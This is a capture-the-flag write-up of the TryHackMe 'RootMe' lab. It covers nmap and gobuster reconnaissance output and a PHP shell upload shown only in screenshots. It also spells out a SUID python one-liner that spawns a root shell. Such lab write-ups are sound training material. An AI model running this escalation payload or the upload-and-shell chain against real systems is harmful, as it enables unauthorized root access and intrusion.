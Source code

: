 # THM RootMe Quick Writeup

# NMAP

-> Standard Port scan res:

```BASH
└─$ nmap -T5 -A 10.10.242.137 -oN nmapScanStanrds.xml                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 17:15 IST
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.28s latency).
Not shown: 930 closed tcp ports (reset), 68 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   203.83 ms 10.23.0.1
2   203.76 ms 10.10.242.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.72 seconds
```

-> All Ports scan res:

```bash 
# Nmap 7.95 scan initiated Fri Jun 27 17:17:19 2025 as: /usr/lib/nmap/nmap --privileged -T5 -p- -oN nmapScanFull.xml 10.10.242.137
Warning: 10.10.242.137 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.242.137
Host is up (0.18s latency).
Not shown: 64700 closed tcp ports (reset), 833 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Fri Jun 27 17:27:20 2025 -- 1 IP address (1 host up) scanned in 600.57 seconds

```

-> Dirbusting with Gobuster:

```bash
└─$ gobuster dir -u 10.10.242.137 -w /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.242.137
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/pwn3r/hell/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.242.137/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.242.137/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.242.137/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.242.137/uploads/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

-> we have `/panel` and `/uploads` dirs that can be used for uploading shell (php(php5 worked here)) and access from uploads subsequently.

> Note: Why PHP shell?, i dunno although Wappalyzer didn't work for server script but its most typical CTF challenge style where they have php shell technique to gain initial hold. Nevertheless we can ask from GPT as we found server atleast.
> ![5.png](./imgs/5.png)


-> `/panel`

![1.png](imgs/1.png)

-> `/uploads`

![2.png](./imgs/2.png)

-> got revere shell

![3.png](./imgs/3.png)

-> user.txt

![4.png](./imgs/4.png)

-> upgrading shell

![7.png](./imgs/7.png)

-> escalating privilege

![9.png](./imgs/9.png)

-> fortunately we have SUID bit set in python(/usr/bin/python), and rest is on GTFOBINS.

![10.png](./imgs/10.png)

![11.png](./imgs/11.png)

-> Payload: `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![12.png](./imgs/12.png)

-> root flag

![8.png](./imgs/8.png)



